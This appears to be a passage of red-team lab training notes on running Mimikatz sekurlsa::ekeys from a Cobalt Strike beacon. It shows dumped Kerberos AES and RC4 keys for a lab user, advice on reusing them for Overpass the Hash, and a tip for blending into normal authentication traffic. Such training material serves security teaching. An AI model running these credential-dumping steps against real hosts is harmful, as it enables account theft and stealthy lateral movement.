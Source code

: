 This Mimikatz module will dump Kerberos encryption keys. Since most Windows services choose to use Kerberos over NTLM, leveraging these over NTLM hashes makes more sense for blending into normal authentication traffic.

This requires local admin privileges on the host.
```shell
beacon> mimikatz sekurlsa::ekeys

Authentication Id : 0 ; 113277 (00000000:0001ba7d)
Session           : Interactive from 1
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 5/24/2021 9:00:11 AM
SID               : S-1-5-21-3263068140-2042698922-2891547269-1122

     * Username : jking
     * Domain   : DEV.CYBERBOTIC.IO
     * Password : (null)
     * Key List :
       aes256_hmac       a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
       rc4_hmac_nt       4ffd3eabdce2e158d923ddec72de979e
       rc4_hmac_old      4ffd3eabdce2e158d923ddec72de979e
       rc4_md4           4ffd3eabdce2e158d923ddec72de979e
       rc4_hmac_nt_exp   4ffd3eabdce2e158d923ddec72de979e
       rc4_hmac_old_exp  4ffd3eabdce2e158d923ddec72de979e
```

The **aes256_hmac** and **aes128_hmac** (if available) fields are what we want to use with **Overpass the Hash**. These AES keys are not automatically populated into the Credential data model, but they can be added manually (**View > Credentials > Add**).
